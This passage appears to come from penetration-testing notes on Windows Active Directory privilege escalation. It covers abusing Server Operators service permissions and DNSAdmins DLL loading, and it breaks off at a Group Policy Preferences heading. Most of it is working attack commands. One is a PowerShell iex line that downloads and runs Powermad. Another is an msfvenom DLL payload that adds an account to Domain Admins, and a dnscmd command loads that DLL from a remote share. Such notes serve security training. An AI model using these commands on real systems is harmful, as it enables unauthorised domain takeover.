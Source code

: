 First we verify that the user account is part of the group

```
whoami /groups
```

Then we then enumerate which services the server operators group has write access to

```powershell
$services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
```

Next we search which of the listed services is running with SYSTEM privileges

```powershell
gci HKLM:\SYSTEM\ControlSet001\Services |Get-ItemProperty | where {$_.ObjectName -match 'LocalSystem' -and $_.pschildname -in $services.name}).PSChildName
```

### Exploiting DNS Admin Group

Members of the DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

First step is downloading \[powermad]\[https://github.com/Kevin-Robertson/Powermad] to the taget machine

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
```

Next step is creating a new machine account

```powershell
New-MachineAccount -MachineAccount test -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Domain htb.local -DomainController dc.htb.local
```

Next is creating a malicious DLL with msfvenom. The DLL will add the user 'test' we created earlier to the domain admins group.

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" test /add /domain' -f dll > dns.dll
```

Lastly with \[dnscmd]\[https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd]

```
dnscmd.exe dc.htb.local /config /serverlevelplugindll \\machine-ip\tmp\dns.dll
```

Lastly we would need to reboot the machine or restart the DNS service if we got the necessary privileges.

### Exploiting Group Policy Preferences

#### Manual
